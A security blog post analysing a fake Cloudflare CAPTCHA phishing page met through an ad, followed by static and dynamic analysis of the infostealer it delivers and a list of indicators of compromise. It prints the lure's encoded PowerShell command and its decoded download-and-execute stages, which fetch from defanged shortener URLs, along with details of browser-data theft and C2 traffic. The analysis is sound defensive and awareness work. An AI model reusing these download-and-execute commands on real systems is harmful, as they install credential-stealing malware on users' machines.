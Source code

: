 ```yaml
---
title: CAPTCHA This!
date: 2025-05-14
draft: false
author: Kyd1ct
description: How a failed attempt at fake CAPTCHA phishing saved the day.
---
```



In this article, we’ll break down how this failed phishing attempt occurred and what would have happened if it succeeded.


## Discovery
I kept seeing articles about the phishing technique that utilises fake CAPTCHA pages. I wanted to know if I could randomly come across one of them in the wild, so I booted up my FlareVM and started browsing. I went to various websites, including travel agencies, social media, etc. (of course, without logging anywhere or inputting credentials), without AdBlock. I had planned a trip to visit a friend, so I thought, "Why not, I could check bus prices". Lo and behold, a Google ad popped up when I attempted to open one of the websites, and it was a fake CAPTCHA phishing page, impersonating a Cloudflare page.

![Fake Phishing Page.](/img/Malware/CAPTCHA_This/fakePage.jpg)

The page was later reported, and now it seems to have restricted access, showing a "Forbidden" error when trying to access it. The main domain, however, is still up and still shows `hellow` when accessed.

Let's examine the script, though:

```powershell
PowerShell.exe -ep bypass -enc KABJAG4AdgBvAGsAZQAtAHcAZQBiAHIAZQBxAHUAZQBzAHQAIAAtAFUAUgBJACAAJwBoAHQAdABwAHMAOgAvAC8AcwBoAG8AcgB0AGUAcgAuAG0AZQAvAFgATwBXAHkAVAAnACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwApAC4AYwBvAG4AdABlAG4AdAAgAHwAaQBlAHgA -w 1powershell
```

So what can we identify from this?
- The command bypasses policy execution
- Runs a Base64 encoded command

We can only see red flags until we see `-w 1powershell`. This was one of the fake CAPTCHA phishing techniques that has become more frequent in the past year. However, that WindowStyle flag argument was invalid, resulting in an error without executing the script. The correct version would have been `-w 1`, which would have been an alternate version of `-WindowStyle Hidden`.

But what if the issue was not there and we accidentally ran the correct command?


## Analysis
### Static Analysis

Running the command with the correct WindowStyle argument still resulted in an error due to an incorrect User Agent. That's a second strike, so I decided to take a peek at what the encoded command does:

```powershell
(Invoke-webrequest -URI 'hxxps://shorter[.]me/XOWyT' -UseBasicParsing).content |iex
```

The command shows us that the script opens a shortened link. Checking that link in a sandbox, I identified that it contained the following command:

```powershell
Invoke-WebRequest -Uri "hxxps://bitly[.]cx/iddD" -OutFile "$env:TEMP\ComponentStyle.zip"; Expand-Archive -Path "$env:TEMP/ComponentStyle.zip" -DestinationPath "$env:TEMP"; & "$env:TEMP\crystall\Crysta_x86.exe"
```

So let's analyse it:
- It accesses another shortened URL
- Drops an archive in the TEMP directory and unzips it
- Executes the payload

I detonated the second stage payload, omitting the execution part of the script - the archive was secured, and it was time to create a snapshot.

The archive contained multiple files:
- A main executable
- Three DLL files
- a BXI and an [RC](https://learn.microsoft.com/en-us/windows/win32/menurc/about-resource-files) file.

![Fake Phishing Page.](/img/Malware/CAPTCHA_This/archiveFiles.png)

When checked in [VirusTotal](https://www.virustotal.com/gui/file/94bc0c01641801f258e207eca8227845f3f1c686e7394ce3864a6b2538b8eadb/details), we can see that vendors cannot detect the main executable. We can also see that it was first submitted in 2011, and it is also signed and verified by Sonic Solutions, with the product being `DivX Download Manager Service`. While the binary is signed, it is likely vulnerable, making it possible to add malicious capabilities to it with the DLL files and the RC/BXI files.

Examining the strings does not provide much useful information, though it shows us that the file is capable of registry and process manipulation. We can also see the signature provided by VeriSign.

### Dynamic Analysis

Detonating the malware immediately shows a new process called MSBuild.exe, which appears to be associated with Flexera Software according to PEStudio. It also runs tcpvcon.exe, which is SysInternal's TCPView tool.

![First Processes.](/img/Malware/CAPTCHA_This/firstProcesses.png)

Eventually, it also opens multiple Chrome processes, however, no visible windows or tabs were opened.

![Chrome Processes.](/img/Malware/CAPTCHA_This/chromeProcesses.png)

The malicious software creates a copy of itself within `C:\ProgramData\PatchSystemCUS\`, while the `tcpvcon.exe` file was dropped in `C:\Users\<UserName>\AppData\Roaming\PatchSystemCUS`

![Persistence.](/img/Malware/CAPTCHA_This/malwareCopies.png)

![TCPView.](/img/Malware/CAPTCHA_This/tcpView.png)

When it comes to what the malware actually does, it appears to be a classic infostealer. The malicious software attempted to look for data files related to popular browsers like Google Chrome, Brave, Opera, CentBrowser, and many other region-specific browsers like Sputnik, etc.

![Chrome Data.](/img/Malware/CAPTCHA_This/chromeData.png)

![Browser Data.](/img/Malware/CAPTCHA_This/browserData.png)

It also targeted the TCPIP registries, enumerating hostname, DNSclient, and other keys in an attempt to steal details related to the machine's connections. It also enumerated all directories within the virtual machine.

![TCP Info.](/img/Malware/CAPTCHA_This/tcpInfo.png)

![File Enumeration.](/img/Malware/CAPTCHA_This/fileEnumeration.png)

Finally, I observed that the malicious sample went through the Uninstall registry keys, presumably to enumerate installed software and identify specific data "troves" or hindrances (such as security tools).

![Installed Software.](/img/Malware/CAPTCHA_This/installedSoftware.png)

The file communicated with an external IP address at regular intervals, likely serving as a command and control (C2) server for data exfiltration by the malicious binary.

![C2 Connection.](/img/Malware/CAPTCHA_This/c2Connection.png)

![C2 Connection Part 2.](/img/Malware/CAPTCHA_This/c2Connection2.png)

###  Conclusion
In summary, phishing pages like these are far from rare—they can appear anywhere in the wild, even through ads served by reputable networks. Any unsuspecting user could run the malicious tool, risking data leaks or other serious consequences. We also can't depend on attackers making mistakes, which highlights just how essential cybersecurity awareness is for both individuals and organisations.

## IoCs  

### Hashes
- [deb5bd989c9fdd5fe7f78f00a1216eb0](https://www.virustotal.com/gui/file/2ec47cbe6d03e6bdcccc63c936d1c8310c261755ae5485295fecac4836d7e56a/details)
- [2d4fdba00b7f7b02408a8ea6c199037e](https://www.virustotal.com/gui/file/a8ba1e14249cdd9d806ef2d56bedd5fb09de920b6f78082d1af3634f4c136b90/details)
- [e43ec4f0aa69a344fcb8431e60195f0f](https://www.virustotal.com/gui/file/08f351477e71a4fa872a7b16455af9e2bd5dc38adef600a7310ce28acc94aad6/details)
- [ff254c1778aefe5af06889f1f999dee3](https://www.virustotal.com/gui/file/94bc0c01641801f258e207eca8227845f3f1c686e7394ce3864a6b2538b8eadb/details)

### IP Addresses
- [144.172.97[.]2](https://www.virustotal.com/gui/ip-address/144.172.97.2/detection)